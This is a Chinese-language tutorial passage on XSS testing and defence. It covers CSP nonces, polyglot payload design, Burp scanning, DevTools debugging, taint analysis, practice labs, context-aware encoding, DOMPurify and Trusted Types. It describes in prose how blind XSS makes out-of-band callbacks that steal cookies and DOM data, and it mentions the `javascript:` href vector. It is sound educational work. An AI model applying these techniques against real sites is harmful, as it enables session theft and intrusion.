内容安全策略（CSP）作为浏览器原生支持的响应头机制，其完整的指令语法、`script-src`/`style-src`等各条指令的取值规则、以及跨域相关的绕过原理，属于[[03.同源策略与CORS与CSP|03篇]]的职责范围，这里只从"它在XSS攻击链路里卡在哪一环"这个角度做定位：即便前面提到的所有输出编码防线全部失守、攻击者成功让浏览器的分词器识别出了一段新的`<script>`标签或事件处理器，一份配置严谨的CSP依然可以在"分词器识别出脚本"和"JS引擎真正执行这段脚本"之间再拦一道——因为CSP的`script-src`指令本质上是在告诉浏览器"只信任来自这些来源、或携带这个nonce/hash的脚本"，不满足条件的内联脚本会被浏览器直接拒绝执行。这也是为什么CSP被视为XSS纵深防御链条里价值最高的第二层：它不需要开发者在每一处输出点都做对编码，只要策略配置本身收紧到位，就能对相当一部分注入尝试兜底。不过CSP的兜底能力有明确边界，常见的误配置（比如为了兼容遗留内联脚本加上`unsafe-inline`、`script-src`里出现了通配符、或者把某个允许任意回调参数的JSONP端点纳入了白名单从而被当作脚本加载跳板）会让这层防线名存实亡，具体的加固清单放在"安全性与正确使用"一节。

### Polyglot payload：一次探测覆盖多种上下文

在面对一个未知过滤规则、也不确定输出点具体处于哪种上下文的黑盒测试场景时，安全研究者常用一类被称为Polyglot（多语言）的payload做一次性探测——它的字符串结构故意同时含有能在HTML上下文触发的标签、能在属性上下文触发的引号闭合序列、能在JS字符串上下文触发的语句注入片段，依赖HTML/JS解析器的容错机制自动剥离掉不适用当前上下文的无效片段，只留下真正生效的那一段。这类payload的设计价值不在于"威力"，而在于**用一次请求替代原本需要针对五六种上下文分别构造payload的试探过程**，是效率工具而不是漏洞本身的新原理；本节点出它的设计思路——利用解析容错让同一段字符串在不同状态机路径下都能剥出一个可执行片段，是为了帮助读者理解黑盒测试时看到的复杂载荷字符串是如何被设计出来的，具体的成品字符串因为可以被直接复制用于攻击任意未加固的表单，不在此展开。

## 工具视角与实战

### 手工测试方法论：先定位上下文，再构造payload

系统性的手工XSS测试不应该是"把网上抄来的payload挨个试一遍"，效率低且容易漏项。更可靠的方法论分两步：第一步用一个无害但具备唯一性、且包含各类特殊字符的探针字符串（比如同时含有`<`、`>`、`"`、`'`、`;`、反引号等符号的一段标记文本）提交到目标输入点，然后观察这个探针在响应里以什么形式、出现在什么位置——是原样出现在两个标签之间、被塞进了某个属性值、还是出现在一段`<script>`内部的字符串字面量里；第二步才是根据第一步判断出的具体上下文，参照上一节的六类上下文分别构造针对性payload，而不是不看上下文地群发一堆通用payload指望撞上一个能生效的。

对DOM型XSS而言，"查看网页源代码"和开发者工具的Elements面板是两件必须分开理解的东西：前者展示的是服务端返回的原始响应体，对DOM型XSS通常无能为力；后者展示的是浏览器解析并可能已经被JS修改过的实时DOM树，是定位DOM型XSS唯一可靠的观察窗口。实践中常见的做法是先在Sources面板搜索代码里出现的危险sink调用（`innerHTML`、`document.write`等关键字），在调用处打上断点，再从页面上能触达的source（URL片段、postMessage等）反向track数据流向，确认是否存在未编码就流入sink的路径。

### Burp Suite 与自动化扫描的分工

[[13.Web漏洞工具链：BurpSuite|13篇]]会完整介绍Burp Suite的代理、扫描、插件与重放机制，这里只讲与XSS直接相关的用法切面。Burp的被动扫描（Passive Scan）在代理流量经过时分析响应内容，判断请求参数是否被原样反射进响应体、以及反射位置是否处于危险上下文，这个过程不主动发出额外请求，适合先做一轮低成本的初筛；主动扫描（Active Scan）则会针对识别出的每个参数位置，实际发出经过变形编码的探测payload并观察响应变化，通过响应里是否出现未被转义的标记来判断注入是否成功，覆盖面更全但也会产生更多流量、需要授权环境下使用。Intruder模块常被用来对一个已确定存在反射点的参数做payload字典的批量替换测试，把"手工改一次URL测一次"的重复劳动自动化。需要强调的是，无论被动还是主动扫描，Burp Scanner本身对纯DOM型XSS的覆盖依赖其内置的一套基于真实浏览器引擎的DOM分析模块，而不是简单的请求响应文本比对——这也再次印证了上一段的结论：不经过真实JS执行的检测方式，天然无法发现DOM型XSS。

### Blind XSS 与带外检测

存储型XSS一节提到的"二阶存储/盲打"场景，需要专门的检测思路：payload不会在攻击者自己的浏览器里产生任何可见回显，必须依赖带外（Out-of-Band）机制才能确认是否触发。具体做法是在payload里嵌入一小段会主动向攻击者控制的收集服务器发起请求的脚本，一旦这段脚本在某个高权限用户（客服、管理员、审核人员）的浏览器里被执行，就会把当前页面URL、Cookie（若无HttpOnly保护）、User-Agent乃至DOM快照回传给收集服务器，从而在攻击者完全不知道"何时、被谁"触发的情况下确认漏洞存在。这类工具的工程价值在于把原本"发了payload却不知道有没有生效"的不确定测试，变成了有明确证据链的确认过程，常见的应用场景包括客服工单的问题描述字段、联系表单、简历上传解析、订单备注、以及会被记录进后台管理系统日志分析页面的User-Agent与Referer头——后者是一个经典但容易被忽视的注入点，因为开发者往往假设HTTP头部字段"不是用户会主动填写的表单内容"因而疏于编码，但User-Agent本质上同样是完全由客户端自由控制的字符串。

### 浏览器开发者工具与断点调试

除了前面提到的Elements面板，Chrome/Edge等基于Chromium内核的浏览器还提供了更精细的调试手段：DOM断点（DOM Breakpoints）可以针对某个节点设置"子树修改""属性修改""节点删除"三类触发条件，一旦有代码试图往被监控的容器节点写入新内容就会自动中断，非常适合定位"到底是哪一行代码把污染数据写进了这个可疑的容器"；Sources面板的XHR/Fetch断点能在特定URL模式的请求发出时中断，帮助追踪一个可疑source的数据是从哪次网络请求获取的；较新版本的Chromium还在"Issues"面板里内置了对不安全sink调用、CSP违规等问题的自动标注，作为日常调试之外的辅助提示。这套调试手段本质上是把上一节source→sink的抽象模型，落地成了具体可操作的断点设置策略。

### 静态与动态分析工具

代码提交阶段可以用ESLint一类插件在编写代码的当下就拦截危险模式，例如`eslint-plugin-no-unsanitized`专门识别对`innerHTML`等危险sink的直接赋值、`eslint-plugin-security`覆盖更广泛的一类不安全模式。更系统化的方案是基于污点分析（Taint Analysis）的静态分析引擎，如CodeQL、Semgrep：这类工具的核心工作原理是先把代码构建成一张数据依赖图，图上的节点是变量/表达式，边表示数据如何从一个表达式流向另一个表达式；分析规则预先标注哪些函数调用是"污点源"（source规则，例如读取URL参数的函数）、哪些是"危险汇"（sink规则，例如`innerHTML`赋值）、哪些函数一旦被调用就视为完成了净化（sanitizer规则，用于剪枝，避免误报），随后在这张图上做从source节点到sink节点的可达性查询——如果存在一条路径能从某个source走到某个sink而中途没有经过任何已知sanitizer节点，就报告一个潜在漏洞。这套方法论相比人工逐行审查的优势在于它能追踪跨函数、跨文件、经过多层傳参和第三方库调用的数据流，恰好弥补了DOM型XSS"藏在深层调用链里不易被肉眼发现"的短板。动态测试侧则需要DAST工具真正驱动一个能执行JS的无头浏览器（而不是只做HTTP请求-响应文本比对的传统爬虫式扫描器）渲染页面、触发交互，再对比渲染前后的DOM变化，才能发现纯粹依赖运行时JS逻辑触发的DOM型XSS，这也是OWASP ZAP、Burp Suite等主流DAST工具近年都在强化内置浏览器引擎能力的原因。

### 靶场与练习环境

系统性练习XSS建议从结构化的专项靶场入手：PortSwigger Web Security Academy提供了按反射型、存储型、DOM型分类，并延伸到CSP绕过、mXSS等进阶主题的成体系实验室，每个实验室都有明确的"以拿到`alert(document.cookie)`执行为通关标志"的封闭目标，是目前业内公认覆盖面最系统的免费学习资源之一；此外DVWA、bWAPP、OWASP Juice Shop这类经典漏洞靶场也都包含各难度级别的XSS关卡，适合结合前面提到的Burp Suite工作流反复演练。这些环境的共同点是从设计上就明确框定了"这是一个封闭的、专为教学设计的靶场"，与[[00.Web与应用层安全总览|系列总览]]强调的合规基调完全一致——所有具体payload的构造练习都应该在这类环境里完成，而不是对着任意真实网站尝试。

## 安全性与正确使用

### 唯一根本解：上下文相关的输出编码

前面几节反复出现的一条结论在这里正式收束成防御原则：**不存在万能的转义函数，编码必须和数据被输出到的语法上下文一一匹配**。OWASP的XSS Prevention Cheat Sheet把这条原则落实成了一套按上下文区分的规则集——输出到HTML正文用HTML实体编码、输出到HTML属性值同样用HTML实体编码但要覆盖更多字符（包括空格，防止无引号属性被空格分隔出新属性）、输出到JS字符串字面量要用JS转义规则而不是HTML转义、输出到URL的某个参数位置要用百分号编码、输出到CSS属性值要用CSS转义规则、而输出到DOM API的场景则要用对应的DOM属性设置方式（比如用`textContent`代替`innerHTML`，前者从设计上就不会把内容当HTML解析）。这套规则集之所以要按上下文拆得这么细，正是因为第三节讲过的原理：每种上下文对应分词器/解释器的不同状态，用错编码函数等于完全没做防护，"看起来做了转义"和"真正阻止了代码执行"是两件事。

同样需要厘清的是输入校验、输出编码、内容安全策略三者的分工，它们不能互相替代：**输入校验**（比如限定用户名只能是字母数字、限定某字段必须符合日期格式）本质上是缩减攻击面的第一道闸门，对格式明确的字段效果很好，但对天然需要支持自由文本、甚至富文本的字段（评论、简介、文章正文）无法简单套用白名单字符集；**输出编码**才是真正阻止代码被执行的那一层，因为同一份原始数据完全可能被程序在多个不同位置、以不同上下文输出（一条评论正文可能同时出现在页面正文、纯文本邮件通知、移动端App的原生视图里），每一次单独的输出都必须按当次上下文重新编码，"入库前编码一次就一劳永逸"是常见的错误设计，正确做法是尽量保持存储层数据的"原始"，把编码工作留到每一个具体输出点按需完成；**CSP**则是前两层都失守之后的最后一道纵深防御，本篇上一节已经讲过它在攻击链路里的定位，实战配置细节在本节稍后展开。

### 模板引擎自动转义与逃生舱

现代模板引擎和前端框架普遍把"默认安全"作为设计原则：Jinja2/Django模板对`{{ }}`插值默认做HTML转义、Vue的双大括号插值默认转义、React的JSX文本节点渲染默认转义——这是"安全默认值"（Secure by Default）思想的具体体现，开发者不需要每次都记得手工调用转义函数，框架已经替你做了。但所有这些框架都保留了显式的"逃生舱"，让开发者在明确需要输出富文本HTML的场景下绕开默认转义：Vue的`v-html`、React的`dangerouslySetInnerHTML`、Angular需要先调用`DomSanitizer.bypassSecurityTrustHtml`才能配合`[innerHTML]`绑定生效、Django模板的`|safe`过滤器、Jinja2同名的`|safe`。这些API的命名本身就是框架设计者刻意做出的"显眼警告"——`dangerouslySetInnerHTML`这个名字里连"dangerously"都直接写了出来——它们理应是代码评审清单和自动化静态分析规则里第一优先级要重点复查的调用点：出现这些API不必然意味着有漏洞，但意味着开发者主动放弃了框架的默认保护，此处的数据来源和是否经过恰当净化必须被单独审查。

这里还需要破除一个常见的认知误区：React、Vue这类框架的自动转义只覆盖"作为文本节点插值渲染"这一条具体路径，并不等于整个应用天然免疫XSS。以React为例，即便完全不使用`dangerouslySetInnerHTML`，把用户可控的字符串直接赋给`<a href={userInput}>`的`href`属性、且未做协议白名单校验，攻击者依然可以传入`javascript:`开头的伪协议在用户点击时触发执行；直接操作`window.location`或者`document.title`等DOM API同样不受JSX自动转义的保护，因为这些路径完全绕过了JSX的渲染管线。理解这一点的现实意义是：引入一个成熟前端框架显著缩小了攻击面（默认转义堵住了最常见的一类注入），但不能作为"这部分不用再考虑XSS"的免责声明，代码评审时依然要留意所有绕过JSX渲染管线、直接操作原生DOM API或URL类属性的位置。

### Cookie 属性：降低危害而非阻止漏洞

`HttpOnly`属性可以阻止JavaScript通过`document.cookie`读取被标记的Cookie，即便XSS成功执行，脚本也拿不到这个Cookie的字符串本身，这在很大程度上挫败了"窃取会话令牌拿去别处重放"这一种具体的利用路径。但必须清楚认识到`HttpOnly`降低的是XSS成功后的**某一种**危害形式，而不是防住XSS本身——即使拿不到Cookie字符串，攻击者的脚本仍然运行在受害者当前的登录会话里，完全可以直接在受害者的浏览器上下文里发起任意同源请求（改密码、转账、发消息），相当于"借用"受害者当前身份直接操作，根本不需要真的把凭证偷出去，这一区别在评估XSS漏洞实际影响时经常被低估，也是[[07.认证与会话安全]]会更深入展开的会话安全议题。`Secure`属性强制Cookie只能通过HTTPS连接传输，防止在不安全信道上被窃听；`SameSite`属性限制Cookie是否随跨站请求一同发送，主要设计目标是对抗[[06.CSRF与SSRF|CSRF]]而非XSS（下一章会详细展开），这里提前点出是因为XSS和CSRF在实战中经常被组合使用——XSS可以用来读取或绕过页面里的CSRF防护token，这是理解"已经登录即可信"这一假设为何脆弱的另一个具体案例。三个Cookie属性合起来构成的是纵深防御链条上专门针对会话安全的一环，不能替代上一节讲的输出编码这个根本解。

### CSP 实战配置要点

延续第三节对CSP在攻击链路里定位的讨论，这里给出一份相对严格的策略配置作为讨论对象（示例仅用于说明各指令含义，实际部署需结合具体应用的资源来源逐项裁剪）：

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-{每次响应随机生成}' 'strict-dynamic';
  object-src 'none';
  base-uri 'self';
  frame-ancestors 'self';
  report-uri /csp-violation-report
```

`script-src`里的`nonce`是防线的核心：服务端每次渲染响应时都要随机生成一个不可预测的token，同时写入响应头的CSP策略和页面里每一个允许执行的内联`<script nonce="...">`标签，两处的值必须完全一致，浏览器只信任携带正确nonce的脚本——这意味着攻击者即便找到了一处输出编码疏漏、成功让分词器识别出了一段新的内联脚本标签，只要这段注入的标签拿不出当次响应对应的nonce值（而nonce每次响应都会刷新，攻击者无法提前预测或复用上一次响应里的值），浏览器依然会拒绝执行它。`strict-dynamic`解决的是现代前端工程里脚本经常由已加载的脚本动态创建子脚本这一常见模式（打包器生成的入口脚本再动态插入其他chunk）：一旦某个脚本本身携带了合法nonce因而被信任，它动态创建的子脚本也自动被信任，不需要逐一为每个动态创建的脚本单独授权，这个设计让"严格的nonce策略"和"现代前端工程的动态加载模式"能够共存，而不必回退到`unsafe-inline`这类放弃防护的宽松配置。`object-src 'none'`和`base-uri 'self'`分别用于关闭插件类内容嵌入和防止`<base>`标签被用来劫持相对路径资源的解析基准，都是容易被忽略但确实曾被用作CSP绕过跳板的边角配置。`report-uri`/更新版本的`report-to`指令则让CSP不只是一道"拦截墙"，还能反向充当检测手段——即便策略生效拦下了某次注入尝试，违规上报机制依然会把这次尝试的详情发给运营团队指定的接收端点，帮助安全团队感知到"有未预期的脚本正在尝试加载"，这正是纵深防御思想里"检测层"在CSP这一具体机制上的体现。

### DOMPurify 与 Trusted Types：两种不同层次的工程化方案

当业务场景确实需要允许用户输入一部分受限的富文本HTML（比如支持加粗、链接的评论编辑器）、无法简单套用"全部转义成纯文本"这条最省事的规则时，业界的标准做法是引入专门的HTML净化库而不是自己写正则表达式清洗。DOMPurify是这一类库里被广泛采用的代表，它的核心设计选择是**基于DOM解析而不是字符串正则替换**：内部先调用浏览器原生的HTML解析器把输入字符串解析成一棵真实的DOM子树，再按预先配置的标签白名单、属性白名单、URL协议白名单遍历这棵树做删除和清洗，最后把清洗后的树重新序列化回字符串返回给调用者。选择"先解析再清洗"而不是正则替换，正是为了从设计根源上规避第三节讨论过的mXSS问题——既然浏览器最终也是要用同一套解析器去解释这段HTML，净化逻辑就应该工作在解析后的树结构上，而不是对着还没被结构化的原始字符串猜测危险模式。即便如此，DOMPurify的版本历史上仍然多次修补过因为解析器细节差异导致的绕过案例，这个事实本身是对"富文本净化没有一劳永逸的银弹，需要持续跟进解析器实现细节"这一结论最好的佐证。

Trusted Types是一套由Chrome团队推动、目前处于W3C标准化流程中的浏览器原生API，代表了比"引入一个净化库"更进一步的工程化思路：与其依赖开发者自觉地在每个危险sink调用前记得先过一遍净化函数，不如让浏览器在类型系统层面强制这件事。开启Trusted Types策略后，浏览器会拒绝任何普通JS字符串直接赋值给`innerHTML`等已注册的危险sink，唯一被接受的输入是一个`TrustedHTML`类型的对象，而这个对象只能由开发者预先显式注册的Policy（策略函数）生成：

```js
// 注册一个策略，内部调用净化逻辑生成受信任对象
const policy = trustedTypes.createPolicy('app-html-policy', {
  createHTML: (input) => DOMPurify.sanitize(input)
});

// 之后只能通过策略生成的TrustedHTML赋值给innerHTML
element.innerHTML = policy.createHTML(userInput);
// 未经策略处理、直接赋值普通字符串会被浏览器拒绝并抛出异常
```

这套机制的价值在于把"这段HTML有没有被净化过"从一条容易被遗忘的编码规范，变成了浏览器运行时会主动检查并拒绝违规操作的类型约束——相当于把原本依赖人的自觉性和代码评审覆盖率的防线，下沉成了运行时强制的基础设施，即便某个新加入项目的开发者不了解团队的安全规范、直接写了一行`element.innerHTML = userInput`，浏览器也会在运行时直接抛错而不是静默执行，这比任何文档或代码评审规范都更难被绕过。



### 常见误区逐条破解

工程实践中反复出现的几句"想当然"值得逐条拆解：**"过滤了`<script>`标签就安全了"**——第三节已经说明事件处理器属性、`javascript:`伪协议、SVG/MathML命名空间下的解析怪癖都不含这个特征字符串，单一关键字过滤是最脆弱的一种防护。**"用了黑名单就够了"**——黑名单式过滤对已知模式有效，但HTML/CSS/JS标准仍在持续新增标签和事件属性，维护一份"永远追得上标准演进"的黑名单在工程上不现实，白名单加上下文相关的自动编码才是可持续方案。**"用了React/Vue这类框架就不用再操心XSS"**——本节前面已经用`href`里的`javascript:`伪协议和直接DOM操作的例子说明了框架默认转义的覆盖范围有边界。**"数据入库前转义一次，以后就不用管了"**——同一份数据可能被多个不同上下文的输出点消费，一次性编码既可能对某些上下文过度编码（导致显示异常），也可能对另一些上下文编码不足（留下漏洞），正确的原则是保持存储层尽量"干净"、在每个具体输出点按当次上下文编码。**"配了CSP就万事大吉"**——`unsafe-inline`、通配符来源、被纳入白名单的JSONP端点都可能让CSP形同虚设，CSP是纵深防御的一层而不是替代输出编码的银弹。

> [!caution] 合规与授权边界
> 本篇涉及的三型XSS原理、注入向量、上下文编码规则与各类绕过思路，仅适用于以下场景：(1) 你自己拥有或已取得书面授权的系统；(2) PortSwigger Web Security Academy、DVWA、Juice Shop等专门设计的CTF/教学靶场；(3) 出于安全研究、教学或防御能力建设目的搭建的沙箱环境。对任何未取得明确书面授权的第三方网站、他人系统或商业产品进行探测、注入尝试或利用验证，在绝大多数司法辖区均可能构成非法侵入计算机信息系统，需承担相应法律责任。本篇全程采用防御与教育视角组织内容：讲清楚payload为什么能生效、浏览器解析层面的原理是什么，目的是让读者能够看懂代码评审里的风险点、配置正确的CSP与净化策略、设计出经得起考验的输出编码规范，而不是提供可以直接对准生产系统或他人资产使用的武器化配方。若在自己维护或已获授权的系统之外发现疑似XSS漏洞，应通过正规的众测平台或该系统`security.txt`标注的联系方式进行负责任披露，而不是自行验证利用效果。

## 小结

本篇把XSS拆成了三个互相衔接的层次来讲清楚：**机理层**说明反射型、存储型、DOM型只是同一个"数据被误当成代码执行"的核心缺陷在不同管线位置的三种表现，区别在于恶意数据经过服务端拼接还是完全留在浏览器内、以及payload是否需要持久化；**攻击面层**把这个核心缺陷按HTML、属性、JS字符串、URL、CSS五种解析上下文逐一展开，并进一步深入到编码层数不对齐、HTML解析器非幂等（mXSS）等更底层的原理，解释了为什么这个漏洞类别的攻击面天然比其他注入类漏洞更庞大、更难穷尽；**防御层**则收束到一条根本原则——上下文相关的输出编码是唯一站得住的根本解，模板引擎的自动转义、HttpOnly/SameSite等Cookie属性、CSP、DOMPurify、Trusted Types各自解决的是这条根本防线之外的某一类具体子问题或者纵深防御的某一层，理解它们各自的定位远比死记硬背某个配置片段更重要。三层贯穿起来的核心提醒是：XSS的可怕之处不在于某一个具体payload多么精巧，而在于它把攻击代码合法地放进了同源策略本该保护的那个源内部，让攻击者的脚本继承了受害者当前会话的全部权限——这也是为什么下一章[[06.CSRF与SSRF|CSRF与SSRF]]开篇会讨论"已经登录即可信"这一假设为何脆弱：XSS恰恰是击穿这条假设最直接的手段之一，读者在读下一章时，可以带着"如果这里先发生一次XSS，CSRF防护的token还守得住吗"这个问题去看CSRF token机制的设计取舍。

## 相关阅读

- [[03.同源策略与CORS与CSP|同源策略与CORS与CSP]] —— CSP完整指令语法与跨域机制本体，本篇仅从XSS纵深防御的实战配置角度引用
- [[04.注入类漏洞：SQL与命令与模板|注入类漏洞：SQL与命令与模板]] —— 与XSS同构的"数据被误当成代码"漏洞家族，目标解析器不同
- [[06.CSRF与SSRF|CSRF与SSRF]] —— 下一章，XSS常被用于窃取或绕过CSRF防护token，两章共同拆解"已登录即可信"假设
- [[07.认证与会话安全|认证与会话安全]] —— HttpOnly/会话令牌被窃取后的重放风险详解
- [[01.Web安全全景与威胁模型|Web安全全景与威胁模型]] —— 信任边界与STRIDE框架，XSS对应Tampering引发的连锁Information Disclosure/Elevation of Privilege
- [[71.详解网络协议/18.HTTP-HTTPS协议|HTTP/HTTPS协议]] —— 响应头、Cookie属性等承载机制
- 官方文档与规范：OWASP XSS Prevention Cheat Sheet、OWASP DOM based XSS Prevention Cheat Sheet、WHATWG HTML Living Standard（Tokenization章节）、W3C Content Security Policy Level 3、W3C Trusted Types、MDN Web Docs（Cross-site scripting、Trusted Types、CSP）
- 书目：《The Web Application Hacker's Handbook》(Dafydd Stuttard & Marcus Pinto)、《XSS Attacks: Cross Site Scripting Exploits and Defense》(Seth Fogie et al.)
- 靶场：PortSwigger Web Security Academy（XSS专项实验室）、OWASP Juice Shop、DVWA
- [[00.Web与应用层安全总览|系列总览]]

[[00.Web与应用层安全总览|⬆ 系列总览]] | [[04.注入类漏洞：SQL与命令与模板|← 上一章]] | [[06.CSRF与SSRF|→ 下一章]]
